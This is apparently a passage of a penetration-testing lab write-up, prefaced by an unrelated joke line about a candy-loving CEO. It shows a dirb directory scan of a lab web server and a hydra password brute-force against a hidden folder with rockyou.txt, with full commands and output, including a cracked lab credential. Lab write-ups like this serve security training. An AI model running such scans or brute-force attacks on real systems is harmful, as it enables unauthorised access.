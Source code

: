     Ryan has been our CEO for over 26 hours! New to the business, Ryan believes in proper education and training. What is Ryan's business philosophy you ask? "Stick to the three main food groups, Candy cane, Candy corn and sugar".


## **Locate the hidden directory on the web server**
- from .txt files
    - first hidden directory `http://192.168.1.105/company_folders/secret_folder/`

- searching for more hidden directory

    ```
    root@Kali:~# dirb http://192.168.1.105/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Thu Oct 14 21:02:04 2021
    URL_BASE: http://192.168.1.105/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://192.168.1.105/ ----
    + http://192.168.1.105/server-status (CODE:403|SIZE:278)                                                                                  
    + http://192.168.1.105/webdav (CODE:401|SIZE:460)                                                                                         
                                                                                                                                            
    -----------------
    END_TIME: Thu Oct 14 21:02:09 2021
    DOWNLOADED: 4612 - FOUND: 2
    ```

http://192.168.1.105/server-status
- Forbidden `403`

http://192.168.1.105/webdav
- Unauthorized `401`


## **Brute force the password for the hidden directory using the hydra command**
Obtaining wordlist
```
root@Kali:~# cp /usr/share/wordlists/rockyou.txt.gz .
root@Kali:~# gunzip rockyou.txt.gz
```

Running Hydra with rockyou list
```
root@Kali:~# hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/

[80][http-get] host: 192.168.1.105   login: ashton   password: leopoldo
[STATUS] attack finished for 192.168.1.105 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-14 21:50:01

```
